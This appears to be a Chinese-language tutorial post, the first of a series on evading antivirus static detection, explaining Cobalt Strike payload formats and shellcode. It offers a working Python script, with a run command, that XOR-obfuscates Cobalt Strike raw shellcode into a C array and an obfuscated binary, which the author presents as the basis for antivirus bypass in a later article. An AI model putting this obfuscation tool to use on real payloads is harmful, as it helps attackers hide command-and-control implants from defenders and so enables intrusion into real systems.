 # TL;DR

静态恶意代码逃逸（Static Malware Evasion）指的是恶意软件使用各种技术来逃避静态分析的检测。静态分析是一种不执行程序代码，仅通过检查代码、文件结构和其他静态属性来检测和分析恶意软件的方法。以下是一些常见的静态恶意代码逃逸技术：

- 代码混淆
- 加密和压缩
- 分段加载
- 字符串隐藏
- 反逆向工程技术
- 伪代码插入
- 多态和变形

# 0X01 恶意代码的定义

关于恶意代码的定义都以Cobaltstrike的载荷为例

# 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

# 0x03 RAW文件

RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的**BIN文件**。

![截图](7901fd107389e5998d64ecf79e0f79f5.png)

RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常一般使用**混淆**的方式再生成一遍。

# 0x04 C文件

![截图](83bf6f9fcfbf1af99ebee67f414f4404.png)

C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

# 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType
import logging

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while (code := src_fp.read(1)):
            base10 = ord(code) ^ num
            shellcode_raw += base10.to_bytes(1, 'little')
            code_hex = f'{base10:02x}'
            shellcode += f'\\x{code_hex}'
            shellcode_size += 1
        
        dst_raw.write(shellcode_raw)
        dst_fp.write(shellcode)
        return shellcode_size
    except Exception as e:
        logging.error(f"Error processing binary: {str(e)}")
        return 0

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v', '--version', action='version', version='Shellcode X 1.0')
    parser.add_argument('-s', '--src', help='source bin file', type=FileType('rb'), required=True)
    parser.add_argument('-d', '--dst', help='destination shellcode file', type=FileType('w+'), required=True)
    parser.add_argument('-n', '--num', help='Confused number', type=int, default=90)
    parser.add_argument('-r', '--raw', help='output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()

    with args.src as src_fp, args.dst as dst_fp, args.raw as dst_raw:
        shellcode_size = process_bin(args.num, src_fp, dst_fp, dst_raw)
    
    print(f"[+] Shellcode Size : {shellcode_size}")

if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO)
    main()
```

上面这个脚本用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

## 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\main.py -s .\payload.bin  -d payload.c -n 10 -r out.bin
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。

![截图](79b402aabd83f5224860b891afd229ca.png)

这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。

**注：-r 参数输出的是混淆过的二进制版本shellcode，-d 参数输出的是C语言格式的shellcode**
